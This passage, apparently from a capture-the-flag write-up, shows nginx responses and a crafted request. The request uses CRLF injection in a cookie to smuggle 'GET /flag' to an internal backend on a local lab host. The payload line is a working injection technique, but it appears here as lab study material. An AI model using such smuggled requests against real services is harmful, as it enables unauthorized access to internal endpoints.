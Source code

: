 Response:

```http
HTTP/1.1 503 Service Unavailable
Server: nginx/1.22.1
Date: Tue, 31 Dec 2024 08:19:45 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Content-Length: 445

Failed to decode response from http://backend/e88869df3efe30ba5e0afb8bbad0a9be: {"note":{"content":"bar","title":"foo"},"success":true}
HTTP/1.1 400 Bad Request
Server: nginx/1.22.1
Date: Tue, 31 Dec 2024 08:19:45 GMT
Content-Type: text/html
Content-Length: 157
Connection: close

<html>
<head><title>400 Bad Request</title></head>
<body>
<center><h1>400 Bad Request</h1></center>
<hr><center>nginx/1.22.1</center>
</body>
</html>
```

As you can see, our CRLF injection caused HTTP status code "400 Bad Request". This is because our smuggled HTTP request is not invalid according to the [HTTP specification](https://datatracker.ietf.org/doc/html/rfc2616#autoid-37).

Now, what if we try to make it as a valid HTTP request?

```http
GET /note.php?id=<note_id_here> HTTP/1.1
Host: localhost:4891
Cookie: auth=eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InNpdW5hbSIsImlhdCI6MTczNTYzMzE1NCwiZXhwIjoxNzM1NjM2NzU0fQ.Dfa8LvzQclcK3C-bUOPt5UdGwYBP5TlXWB5B4tYqv0kTtbj6fPIt3uuQ_dpIklTSmEY7TNly2i-8U9fyUoJnDKS84Qv7Ps5e3Be9pjwwqxKbS5F6V-P9Ja39xDODmYP45gapHQ6v7nlt6krArvhSZLoXPHOICoJBfrJTGbTeii9G2OUIJrGDxZn4UhmUlMrdvA198ZxMROX9--SnoQIZz7DL7Hyapx2a95mWDvLqlYIkOG67_9MKCKOrshMS_ioXYbRRjb-gSyydje76x44yGabHZQTPtGUr_MW79tSJ-dWswMZ6Vatjj6UOZjpNsBQ4gWL7a9PL8tCwvi15t5ua_Q%0d%0a%0d%0aGET /flag HTTP/1.1%0d%0a


```

Smuggled request:

```http
GET /flag HTTP/1.1
Host: backend


```
